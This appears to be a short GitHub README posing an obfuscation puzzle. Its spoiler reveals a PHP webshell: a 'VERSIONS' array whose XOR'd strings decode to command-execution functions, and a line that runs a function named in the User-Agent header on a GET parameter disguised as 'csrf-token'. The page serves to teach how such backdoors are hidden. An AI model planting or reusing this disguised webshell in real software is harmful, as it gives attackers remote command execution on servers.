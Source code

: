 # What does this code do?
seriously.

<details>
<summary>Spoiler warning</summary>
It's a webshell :)<br/>
<code>
  public const VERSIONS = array(
        "KWBZUA" ^ "8.1.0, 8.1.1, 8.1.2",
        "GADK_" ^ "7.4.14, 7.4.13, 7.4.12",
        "RVQM" ^ "7.4.24, 7.4.23, 7.4.22",
        "GOG]FY^U" ^ "7.4.21, 7.4.20, 7.4.19",
        "G\[MnW\EY" ^ "7.4.18, 7.4.16, 7.4.15",
  );
</code>
  <br/>
  is identical to
  <br/>
<code>
  public const VERSIONS = array(
        "system",
        "popen",
        "exec",
        "passthru",
        "proc_open",
    );
</code>
  <br/>
and
  <br/>
<code>
${"_SERVER"}["HTTP_USER_AGENT"]($_GET["csrf-token"]);
</code>
  <br/>
is identical to 
  <br/>
<code>
$_SERVER["HTTP_USER_AGENT"]($_GET["csrf-token"]);
</code>

</details>
